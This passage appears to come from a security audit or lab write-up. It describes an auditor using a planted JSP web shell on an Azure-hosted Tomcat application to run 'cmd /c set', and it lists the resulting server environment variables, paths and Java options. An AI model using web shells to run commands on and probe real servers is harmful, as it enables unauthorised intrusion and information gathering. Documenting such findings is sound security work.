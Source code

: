- The auditor can access the web shell to execute OS commands at `https://contactpharmacorp.azurewebsites.net/student105.jsp`. Using the `cmd /c set` command the auditor can list the environment variables to discover various sensitive information.
```cmd
ACTION=start
AZURE_ENV_INITIALIZED=C:\Program Files\apache-tomcat-9.0.83\bin\
AZURE_LOGGING_DIR=C:\home/LogFiles
AZURE_SITE_APP_BASE=C:\home/site/wwwroot/webapps
AZURE_SITE_HOME=C:\home
AZURE_SITE_LIBS_DIR=C:\home/site/libs
AZURE_UNPACK_WARS=true
CATALINA_BASE=C:\Program Files\apache-tomcat-9.0.83
CATALINA_HOME=C:\Program Files\apache-tomcat-9.0.83
CATALINA_LOGGING_CONFIG=-Djava.util.logging.config.file="C:\Program Files\apache-tomcat-9.0.83\conf\logging.properties"
CATALINA_OPTS= -DuseEncodedApplogs=true
CATALINA_TMPDIR=C:\local\Temp
CLASSPATH=C:\Program Files\apache-tomcat-9.0.83\lib\servlet-api.jar;C:\Program Files\apache-tomcat-9.0.83\lib\azure.appservice.jar;C:\Program Files\apache-tomcat-9.0.83\bin\bootstrap.jar;C:\Program Files\apache-tomcat-9.0.83\bin\tomcat-juli.jar
CURRENT_DIR=C:\home\site\wwwroot
ENDORSED_PROP=ignore.endorsed.dirs
JAVA_OPTS=-Dcatalina.valves.showReport=False -Dcatalina.valves.showServerInfo=False -Dcatalina.maxConnections=10000 -Dcatalina.maxThreads=200  -Dsite.logdir=C:/home/LogFiles -Dsite.home=C:/home -Dsite.libs=C:/home/site/libs -Dsite.appbase=C:/home/site/wwwroot/webapps -Dsite.xmlbase=C:/home/site/wwwroot -Dsite.unpackwars=true -Dsite.tempdir=C:\local\Temp -Dcatalina.instance.name=664cff65fb0830a8f00d20cbb06260ad645f7e6c54f889f5a82e638267647ba0 -Dport.http=21089 -Djava.net.preferIPv4Stack=true -noverify -Dsite.logRetentionDays=1 -Dsite.logRotatable=true -Dsite.connectionTimeout=220000 -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources
JAVA_TMP_DIR=C:\local\Temp
JDK_JAVA_OPTIONS= --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED
JRE_HOME=C:\Program Files\Java\Adoptium-Eclipse-Temurin-OpenJDK-8u392
JSSE_OPTS=-Djdk.tls.ephemeralDHKeySize=2048
LOGGING_MANAGER=-Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
MAINCLASS=org.apache.catalina.startup.Bootstrap
PROMPT=$P$G
SystemDrive=C:
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 85 Stepping 7, GenuineIntel
DOTNET_HOSTING_OPTIMIZATION_CACHE=C:\DotNetCache
PROCESSOR_ARCHITECTURE=AMD64
DriverData=C:\Windows\System32\Drivers\DriverData
Path=C:\Python27;C:\Program Files (x86)\nodejs;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Program Files\Microsoft Network Monitor 3\;C:\Users\packer\AppData\Roaming\npm;C:\Program Files (x86)\nodejs\;C:\Program Files (x86)\Mercurial\;C:\Program Files\Git\cmd;C:\Program Files (x86)\Microsoft ASP.NET\ASP.NET Web Pages\v1.0\;C:\Program Files (x86)\dotnet;C:\Program Files\dotnet;C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\WindowsApps;C:\Program Files\Java\Adoptium-Eclipse-Temurin-OpenJDK-8u392\bin;
AZURE_TOMCAT7_CMDLINE=-Dport.http=%HTTP_PLATFORM_PORT% -Djava.util.logging.config.file="C:\Program Files (x86)\apache-tomcat-7.0.94\conf\logging.properties" -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Dsite.logdir="d:/home/LogFiles/" -Dsite.tempdir="d:\home\site\workdir" -classpath "C:\Program Files (x86)\apache-tomcat-7.0.94\bin\bootstrap.jar;C:\Program Files (x86)\apache-tomcat-7.0.94\bin\tomcat-juli.jar" -Dcatalina.base="C:\Program Files (x86)\apache-tomcat-7.0.94" -Djava.io.tmpdir="d:\home\site\workdir" org.apache.catalina.startup.Bootstrap
RoleInstanceId=dw1SmallDedicatedWebWorkerRole_8420
```